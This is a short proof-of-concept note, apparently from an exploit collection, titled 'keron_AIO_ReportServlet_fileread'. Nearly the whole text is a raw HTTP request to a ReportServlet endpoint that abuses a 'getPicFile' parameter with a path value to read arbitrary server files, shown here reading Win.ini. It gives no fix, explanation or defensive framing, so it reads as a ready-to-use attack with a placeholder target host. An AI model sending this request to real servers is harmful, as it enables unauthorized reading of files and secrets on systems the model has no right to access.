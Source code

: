 # keron_AIO_ReportServlet_fileread

from: https://blog.csdn.net/luochen2436/article/details/135273116
24/01/02 @2
```
GET /ReportServlet?operation=getPicFile&fileName=/DISKC/Windows/Win.ini HTTP/1.1
Host: you_ip
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,
*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
